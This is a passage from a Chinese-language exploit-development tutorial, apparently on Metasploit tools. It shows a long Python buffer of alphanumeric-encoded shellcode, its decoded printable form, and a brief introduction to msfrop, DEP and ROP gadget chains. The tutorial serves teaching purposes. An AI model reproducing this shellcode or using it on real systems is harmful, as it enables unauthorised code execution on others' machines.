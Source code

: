 buf += "\x6e\x6b\x45\x64\x6e\x6b\x55\x51\x4a\x76\x64\x71\x69"
buf += "\x6f\x4e\x4c\x7a\x61\x78\x4f\x54\x4d\x36\x61\x79\x57"
buf += "\x74\x78\x79\x70\x74\x35\x68\x76\x35\x53\x51\x6d\x38"
buf += "\x78\x75\x6b\x31\x6d\x56\x44\x31\x65\x59\x74\x56\x38"
buf += "\x4c\x4b\x33\x68\x55\x74\x75\x51\x4e\x33\x73\x56\x4c"
buf += "\x4b\x76\x6c\x52\x6b\x4c\x4b\x66\x38\x65\x4c\x63\x31"
buf += "\x4b\x63\x6e\x6b\x64\x44\x6e\x6b\x35\x51\x6e\x30\x4c"
buf += "\x49\x73\x74\x61\x34\x31\x34\x73\x6b\x73\x6b\x75\x31"
buf += "\x70\x59\x72\x7a\x36\x31\x4b\x4f\x79\x70\x53\x6f\x61"
buf += "\x4f\x63\x6a\x4e\x6b\x35\x42\x68\x6b\x4e\x6d\x61\x4d"
buf += "\x61\x78\x34\x73\x56\x52\x55\x50\x53\x30\x53\x58\x63"
buf += "\x47\x33\x43\x74\x72\x51\x4f\x66\x34\x75\x38\x50\x4c"
buf += "\x43\x47\x55\x76\x54\x47\x6b\x4f\x6e\x35\x4e\x58\x5a"
buf += "\x30\x53\x31\x43\x30\x75\x50\x36\x49\x38\x44\x42\x74"
buf += "\x52\x70\x73\x58\x35\x79\x6f\x70\x72\x4b\x45\x50\x69"
buf += "\x6f\x49\x45\x70\x6a\x74\x4b\x72\x79\x42\x70\x4b\x52"
buf += "\x79\x6d\x31\x7a\x65\x51\x73\x5a\x65\x52\x73\x58\x38"
buf += "\x6a\x64\x4f\x59\x4f\x59\x70\x79\x6f\x59\x45\x4a\x37"
buf += "\x50\x68\x46\x62\x67\x70\x67\x61\x61\x4c\x4f\x79\x6b"
buf += "\x56\x53\x5a\x74\x50\x71\x46\x43\x67\x63\x58\x7a\x62"
buf += "\x39\x4b\x70\x37\x53\x57\x69\x6f\x4a\x75\x4b\x35\x6b"
buf += "\x70\x54\x35\x72\x78\x46\x37\x52\x48\x6d\x67\x6a\x49"
buf += "\x54\x78\x69\x6f\x39\x6f\x5a\x75\x31\x47\x51\x78\x62"
buf += "\x54\x48\x6c\x75\x6b\x79\x71\x79\x6f\x4a\x75\x43\x67"
buf += "\x6a\x37\x43\x58\x42\x55\x72\x4e\x52\x6d\x31\x71\x6b"
buf += "\x4f\x4a\x75\x30\x6a\x75\x50\x71\x7a\x44\x44\x70\x56"
buf += "\x63\x67\x51\x78\x65\x52\x59\x49\x49\x58\x61\x4f\x79"
buf += "\x6f\x5a\x75\x4b\x33\x6c\x38\x45\x50\x43\x4e\x54\x6d"
buf += "\x4e\x6b\x46\x56\x52\x4a\x53\x70\x31\x78\x53\x30\x76"
buf += "\x70\x37\x70\x55\x50\x46\x36\x42\x4a\x65\x50\x52\x48"
buf += "\x51\x48\x6d\x74\x33\x63\x38\x65\x39\x6f\x6e\x35\x5a"
buf += "\x33\x52\x73\x63\x5a\x75\x50\x42\x76\x46\x33\x43\x67"
buf += "\x63\x58\x74\x42\x48\x59\x7a\x68\x73\x6f\x39\x6f\x78"
buf += "\x55\x4f\x73\x69\x68\x65\x50\x73\x4e\x64\x47\x45\x51"
buf += "\x6a\x63\x34\x69\x6a\x66\x72\x55\x4d\x39\x49\x53\x41"
buf += "\x41"
```
这时，我们得到了一个完全由可读字符和数字组成的shellcode:
```
>>> print buf
IIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIkLIxk2GpC0wpapk9IufQ9PpdLKF0dpLKSbvlNkQBB4LKcBq8dOlwrjUvV
QYoNLulU1SL32Tlq0zaXO4M6ahGKRIbCbrwNkf2vplK3zElNkrlR1D88cRhfaKaRqlKaIa05Q9Cnksy4XzCdzBiNk5dlKgqn6dqYoLl9QzoF
mgqyWgHIpPuzV4CsMjXwKQmUtt5M4BxNk1HUtEQzs56nkFl0KLKaHGlGqzslKwtlKGqJpK9PDTd7TCkckqq693jCaIom0sosobznkr2Xknma
MBHVSTrc0C0BHqgcCDr3oaDu8RlBW16c7KOXULxZ0S1C05PQ9jdqDrp3XEyOpBKgpyo9Eqz6kbyV08bIm2JfaqzTBU8zJ4OkoYpIohUz72HF
bePVqSlNi8fbJTPv6Rw0hJbKkVWRGioKeLEIP1ev81GRHMgM9vXkO9oHUqGBHadZL5k9qKO8UbwlWaxaerNrm0aIon51zwp1zfdaFV7u8eRJ
yxHaOkO8UNc8xS0SNTmLKFVazqPsX5PfpS0EPaFazUP2HbxOTbsIu9ozunsf3pj30Sf1CbwbH32HYhHQOKOjuos8xuPQnUWwq8Cti9V1eIyZ
cAA
```

这个参数的含义是我们已经将shellcode的绝对地址找到并放在ecx寄存器中。

#### 使用 MSFROP 查找代码漏洞

当你开发新版本Windows os的exploits时，你将发现它们默认有DEP功能。DEP阻止shellcode在堆栈中的执行，这就迫使 exploit开发者找到绕过这一限制的方式，也就有了所谓的 Return Orientation Programming（ROP）。

一个 ROP payload 可以使用预设的指令集来开发，例如 non-ASLR 的二进制使你的shellcode可执行。ROP链上的指令集都需要以RETN指令结束，以便与通常称为gadget的指令集一起执行ROP链。
```